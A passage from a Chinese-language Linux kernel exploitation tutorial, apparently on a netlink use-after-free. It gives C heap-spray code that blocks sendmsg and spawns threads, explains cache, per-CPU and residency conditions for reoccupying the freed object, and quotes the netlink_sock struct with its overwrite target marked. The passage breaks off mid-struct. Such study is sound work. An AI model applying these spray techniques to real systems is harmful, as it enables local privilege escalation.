 ```c
struct msghdr msg;
    memset(&msg,0,sizeof(msg));
    struct iovec iov;
    char iovbuf[10];
    iov.iov_base = iovbuf;
    iov.iov_len = 10;
    msg.msg_iov = &iov;
    msg.msg_iovlen = 1;
    struct timeval tv;
    memset(&tv,0,sizeof(tv));
    tv.tv_sec = 0;
    tv.tv_usec = 0;
    if(setsockopt(rfd,SOL_SOCKET,SO_SNDTIMEO,&tv,sizeof(tv))){
        perror("heap spary setsockopt");
        exit(-1);
    }
    while(sendmsg(sfd,&msg,MSG_DONTWAIT)>0);				// 使其阻塞

	for(i=0;i<10;i++){
        if(errno = pthread_create(&pid,NULL,thread3,&t3)){	// 利用子线程来喷射
            perror("pthread_create ");
            exit(-1);
        }      
    }
```

**注意**：

- 堆喷对象使用的内核缓存应该和漏洞对象内存在同一个缓存中。即大小必须落在同一个`kmalloc-X`中；
- ac本身是`array_chche`结构体，该结构体是本地高速缓存，每个CPU对应一个，所以还要保证堆喷申请的对象和漏洞对象在同一个CPU本地高速缓存中；
- 如果堆喷申请的对象只是短暂驻留，当该函数返回时将申请的对象进行了释放，导致无法正确占位。所以要能保证申请的对象不被释放，至少保证在使用漏洞对象时不被释放，这里要采用驻留式内存占位，可以采取让某些系统调用过程阻塞；
- slab缓存碎片化问题，这里要占位的对象大小为0x3f0，对象尺寸比较大，占据四分之一页，比较整齐，应该没有碎片化问题。

**判断喷射是否成功**：构造堆喷对象时，在对应漏洞对象的一些特殊成员域的内存偏移处设置`magic value`，然后可以采用系统调用去获取漏洞对象中相关数据进行判断。`netlink_sock`结构体几个关键的成员如下。

[`netlink_sock`](https://elixir.bootlin.com/linux/v4.11.9/source/net/netlink/af_netlink.h#L12)   [`netlink_getname()`](https://elixir.bootlin.com/linux/v4.11.9/source/net/netlink/af_netlink.c#L1073)

```c
struct netlink_sock {
	/* struct sock has to be the first member of netlink_sock */
	struct sock		sk;
	u32			portid;						// 重点
	u32			dst_portid;
	u32			dst_group;
	u32			flags;
	u32			subscriptions;
	u32			ngroups;
	unsigned long		*groups;			// 重点
	unsigned long		state;
	size_t			max_recvmsg_len;
	wait_queue_head_t	wait;				// 覆盖目标
	bool			cb_running;
	struct netlink_callback	cb;
	struct mutex		*cb_mutex;
	struct mutex		cb_def_mutex;
	void			(*netlink_rcv)(struct sk_buff *skb);
	int			(*netlink_bind)(struct net *net, int group);
	void			(*netlink_unbind)(struct net *net, int group);
	struct module		*module;
#ifdef CONFIG_NETLINK_MMAP
	struct mutex		pg_vec_lock;
	struct netlink_ring	rx_ring;
```